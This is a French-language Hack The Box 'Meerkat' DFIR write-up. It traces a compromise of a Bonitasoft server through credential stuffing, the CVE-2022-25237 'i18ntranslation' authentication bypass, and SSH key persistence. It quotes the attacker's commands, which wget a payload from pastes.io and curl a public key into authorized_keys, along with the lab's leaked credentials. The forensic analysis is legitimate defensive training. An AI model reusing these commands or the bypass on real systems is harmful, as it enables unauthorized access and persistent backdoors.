


# Sherlock / SOC / CTI / DFIR / IR Exercice

## Title: Meerket

## Date: 14/10/2025

## Objective:
Le but de la chasse est d'identifier la source d’un accès non autorisé par le quelque groupe dans une entreprise et d'analyser leur actions malveillants en utilisent PCAP et logs. Notre Business Management Platforme est compromisé

## Environment / Tools Used:
* HTB Sherlocks: SOC / DFIR
* Wireshark, MITRE ATT&CK, WayBack Machine, Tshark

## Investigation Steps:
1. Analyser les informations disponiblees: `PCAP` et `alerts.json`.
2. Utiliser Wireshark pour trouver les infos
3. Utiliser *WayBack Machine* pour vérifier le contenu de site trouvé
4. Analyser le MITRE ATT&CK pour les techniques de persistence

## Findings:
1. On doit trouver le nom de l'application: Business Management Platforme.
    - Pour trouver cette information, j'ai utilisé la source: *PCAP*.
    - Quand j'ai analysé les logs: `http`, j'ai trouvé que le logiciel: **bonita** était dans le systeme et il y a plusiers requêts pour lui.
    - Après, j'ai recherché sur le Google pour le `bonita software` et j'ai trouvé que: **BonitaSoft** est le nom officiel.
    - Cet logiciel est *open-source* et souvent utilisé pour `Business Management Projects` car il fournit l'automatisation et bon système pour le business.
    - Voilà, la preuve:
    

2. Maintenant, on doit trouver la technique de **Brute Forcing** utilisé par l'attaquant
    - Quand j'ai analysé la source: PCAP, c'est bizarre que il y a beacoup de login avec les utilisateurs differents et les mots de passe.
    - On peut concluder que cette techniqe s'apple **Credential Stuffing**, dont les informations d'identifications perdus sont souvent utilisés par les attaquants
    - Voilà, la preuve:
    

3. On doit trouver le nom de **CVE** avec ce logiciel:
    - Quand on recherché sur l'Internet: `bonitasoft vulnerabilité`
    - On a trouvé le blog de **Rhino Security Labs** et il y a **CVE** associé avec cette vulnerabilité
    - Le CVE: `CVE-2022-25237`
    - Voilà, la preuve:
    

4. On doit trouver le texte spécial associé avec cette vulnerabilité:
    - Pour trouver cela, j'ai recherché sur **NIST** et trouvé ce CVE.
    - Le string spécial est: **i18ntranslation**, l'attaquant peut ajouter ce texte après `URL` de `API` et faire **bypass**
    - Voilà, la preuve:
    

5. Maintenant, on doit trouver la combination de `username et password` uniques
    - Pour trouver cette info, on doit utiliser: **tshark** command-line outil.
    - J'ai utilisé cette commande sur l'Intenet:
    ```bash
        tshark -Y '(http.request.uri == "/bonita/loginservice") && (http.user_agent == "python-requests/2.28.1")' -r meerkat.pcap -T json | jq '.[]._source.layers.http."http.file_data"' | sort | uniq | wc -l
    ```
    - `tshark -r meerkat.pcap` >> pour lire ce fichier
    - `-Y '(http.request.uri = "/bonita/loginservice")` >> seulement `URI` request info
    - `http.user_agent == "python-requests/2.28.1"` >> seulement ce `User agent`
    - `-T json` >> output JSON format
    ```json
        [
        {
            "_source": {
            "layers": {
                "http": {
                "http.file_data": "username=alice&password=1234"

            }
            }
        }
        ]
    ```
    - Après, `jq '.[]._source.layers.http."http.file_data`
        - `jq '.[]` >> tester chaque array
        - `._source.layers.http."http.file_data"` >> aller dedans chaque array et extracter les info de seulement **corps de HTTP POST**
        - **il tire le corps HTTP POST**
    - Voilà: la preuve
    
    


6. On doit trouver le username et le mot de passe réussi:
    - Quand on a analysé la  source: `PCAP`, on a recherché le `http.response.code == 200, 204`.
    - `200` >> avec succéss; `204` >> no contenu mais avec succéss
    - On a trouvé le stream et on fait `suivre TCP/HTTP stream` et après on a trouvé les commandes malveillants.
    - En ce moment-là, on sait que le username et le mot de passe était avec succéss car il a envoyé le code malveillant.
    - Ce username et mot de passe:
        - `seb.broom@forela.co.uk` après **URL Decode**:`seb.broom%40forela.co.uk`
        - Et mot de passe: `g0vernm3nt&_l`
    - Mais ici le mot de passe: `g0vernm3nt` car `&` est separator et `_l` et pour commencer la nouvelle ligne.

    - Voilà, la preuve:
    
    

7. On doit trouver le site dont l'attaquant a utilisé:
    - Quand on a analysé le stream avec succéss et associé avec *payload*, on a trouvé `GET` methode.
    - Ensuite, on a trouvé la commande:
        - `cmd=wget https://pastes.io/raw/bx5gcr0et8`
    - On a trouvé que le site: `pastes.io` pour télécharger le texte.
    - Voilà, la preuve:
    
    

8. On doit trouver le nom du fichier: PUBLIC KEY
    - Quand on a analysé le site: `https://pastes.io/raw/bx5gcr0et8`
    - On a trouvé que il y a un fichier dont contenait `SSH Keys`
    - Pour se connecter avec le temps: `2023`, on a utilisé **WayBack Machine** et testé la date: `2023, 23 Mars`
    - Ensuite, on a trouvé que:
        - `curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys`
    - Et la solution et le nom de fichier: `hffgra4unv`
    - Voilà, la preuve:
    
    

9. On doit trouver le fichier modifié par l'attaquant:
    - On a vu que l'attaquant a téléchargé le `Public Key` et l'a écrit dans la location: `/home/ubuntu/.ssh/authorized_keys`
    - Voilà, la preuve:
    

10. On doit trouver la technique de persistence sur le MITRE ATT&CK
    - L'attaquant a utilisé la technique de modification de fichier: `Authorized SSH Keys`
    - Dans le MITRE ATT&CK, cette technique s'appele: `T1098.004`
    - Voilà, la preuve:
    

## Key Learning / Takeaway:
1. Connexion avec WayBack Machine
2. Wireshark >> `tshark` filtrer >> `HTTP` codes: `200,204`
    - `http.request.uri` et `http.user_agent`
4. Persisente par `SSH` modification

## Voilà:
- **Voilà, ça y est, c'est fini:** `https://labs.hackthebox.com/achievement/sherlock/2118023/552`
